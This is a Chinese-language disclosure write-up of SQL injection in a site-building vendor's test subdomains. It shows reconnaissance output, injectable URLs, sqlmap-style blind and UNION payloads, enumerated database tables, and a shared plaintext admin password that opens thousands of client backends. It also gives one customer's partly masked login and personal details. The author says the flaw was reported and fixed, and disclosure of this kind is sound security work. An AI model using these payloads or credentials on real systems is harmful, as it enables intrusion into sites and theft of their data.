 # 某建站厂商SQL注入影响数万企业

Feei <feei#feei.cn> 09/2014

## 1. 信息收集

```
[+] Emails found:
------------------
david@***world.com
admin@***world.com
divid@***world.com

[+] Hosts found in search engines:
------------------------------------
122.227.***.250:server.***world.com
61.130.***.52:www.***world.com
114.80.***.133:testweb5.***world.com
61.130.***.53:wiki.make.***world.com
114.80.***.29:testweb7.***world.com
114.80.***.191:testweb6.***world.com
61.130.***.55:shop.testweb.***world.com
61.130.***.53:cn.***world.com
61.130.***.55:testweb.***world.com
60.191.***.236:admin.***world.com
61.130.***.54:make1.***world.com
61.130.***.53:make.***world.com
60.191.***.236:is-service.***world.com
61.130.***.53:service.***world.com
60.191.***.236:is-testweb7.***world.com
61.130.***.52:file.***world.com
60.191.***.236:hk.***world.com
60.191.***.236:253Dcn.***world.com
```

提取有用信息
`testwebN.***world.com`

- 上面这种域名是用来测试访问网站的(比如客户住域没有备案或者还没购买,先通过这个域名的二级目录来访问)
- 有N个这类二级域名
- 每个这类二级域名下存在数千客户网站

于是查找注入点

## 2. 漏洞证明

简单的找了下每个二级域下的SQL注入点:

```
testweb 61.130.97.55
http://testweb.***world.com/yining/admin/login.php

testweb2 61.130.97.52 主站
http://testweb2.***world.com/suotie/admin/login.php

testweb3 114.80.68.131
http://testweb3.***world.com/wangxiang/cn/products.php?tid=18&id=1

testweb4
testweb4.***world.com/lnr/cn/faqed.php?id=11&gid=1

...
```

`http://testweb7.***world.com/dongfang/cn/products.php?act=list&id=7`

**通过注入点拿到数据库权限**
```
Place: GET  
Parameter: TypeLevel  
Type: boolean-based blind  
Title: AND boolean-based blind - WHERE or HAVING clause  
Payload: id=19&TypeLevel=1 AND 8971=8971&pid=19  
Type: UNION query

Title: MySQL UNION query (NULL) - 11 columns

Payload: id=19&TypeLevel=1 UNION ALL SELECT NULL,CONCAT(0x7170746271,0x4d597259547178556155,0x7171707a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#&pid=19  
```

**`testweb`数据库**
```
web application technology: PHP 5.2.13, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.0
[*] 'yining'@'localhost'
available databases [4]:
[*] information_schema
[*] maindb
[*] test
[*] ...

Database: maindb
[10 tables]
+---------------------------------------+
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
| ... |
+———————————————————+
```

**`testweb2`的`maindb`库**
```bash
Database: maindb 
[12 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
| ... |
+——————+
```

**`testweb3`的`maindb`库**
```
Database: maindb
[6 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| ... |
+------------+
```

通过分析得出以下结论:

- 每个客户网站只有自己数据库权限和一个名为mainbd库的权限
- 通过分析maindb表结构发现里面竟然存了该二级域名下的所有网站相关信息(管理员帐号密码/反馈/备份/日志/插件等)
- 每个二级域的maindb库里面的的客户信息表都是t_admin,并且密码没有加密
- 每个二级域的maindb库管理员表里面都有一个admin ps99379937的管理员帐户,按理说如果是存放客户的密码,为什么会都有这个帐号呢,于是继续深入下去发现了每个二级域都有一个总的管理后台(e.g `testweb2.***world.com/admin`)

## 3. 漏洞影响

![](images/v_paisang_01.png)
![](images/v_paisang_02.png)
![](images/v_paisang_03.png)

使用`admin`/`ps99379937`可以登陆所有后台,如下

- `testweb.***world.com/admin` (主要是11年建设的网站,共1940个客户)
- `testweb2.***world.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb3.***world.com/admin` (主要是11年建设的网站,共1100个客户)
- `testweb4.***world.com/admin` (主要是12年建设的网站,共1143个客户)
- `testweb5.***world.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb6.***world.com/admin` (主要是13年建设的网站,共1273个客户)
- `testweb7.***world.com/admin` (主要是13年建设的网站,共1093个客户)
- `testweb8.***world.com/admin` (主要是14年建设的网站,共483个客户)
- `testweb9.***world.com/admin` (主要是14年的)
- `testweb10.***world.com/admin` (主要是14年的)
- `testweb11.***world.com/admin` (主要是14年的)

上面截图是其中一个二级域名的管理后台，可以看到很多敏感信息
所有客户网站后台均可以登陆
从`testweb的maindb.t_admin`随便挑选一个用户

```
2644,102,宁波,朱宁斌,,lixiang,4,0,0,5000,李勇,100,lixiang,陈海啸,3lxanc85,,1,2,0,D0:D1:D2:D3:F0:F1:F2:F3:F4:F5:F6:F7:F8:F9:F10:E0:E1:E2:E3:E4:E5:E6:E7:E8:E9:E10:G0:G1:G2:G3:G4:G13:G5:G6:G7:G8:I0:I1:I2:I3:O1:O2,2009-04-30 16:24:58,http://china***.com,2010-02-12 00:00:00,100,宁波**信息工程有限公司,cn/index.php,2009-02-12 00:00:00,,宁波**信息工程有限公司
```

宁波**信息工程有限公司(http://www.china***.com/)
登陆地址:http://www.china***.com/admin/
帐号:lixiang 密码3lxanc**

粗略测试了下,客户案例里面大部分都能登陆并获取到网站后台权限和数据库权限甚至源码。
点到为止,不继续挖了。

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。

